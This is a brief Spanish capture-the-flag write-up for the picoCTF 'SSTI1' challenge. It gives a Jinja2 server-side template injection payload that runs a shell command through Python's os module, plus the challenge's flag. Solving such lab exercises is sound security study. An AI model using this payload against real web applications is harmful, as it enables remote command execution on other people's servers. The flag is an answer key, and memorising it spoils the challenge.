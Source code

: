 # 5 - SSTI1

## Descripcion:
* I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
* Server Side Template Injection

## Solucion:
* http://rescued-float.picoctf.net:60181
* {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
* picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}

## Notas:
* ingresamos a la app
* ponemos ese comando
* nos da la bandera

## Referencias:
* https://onsecurity.io/article/server-side-template-injection-with-jinja2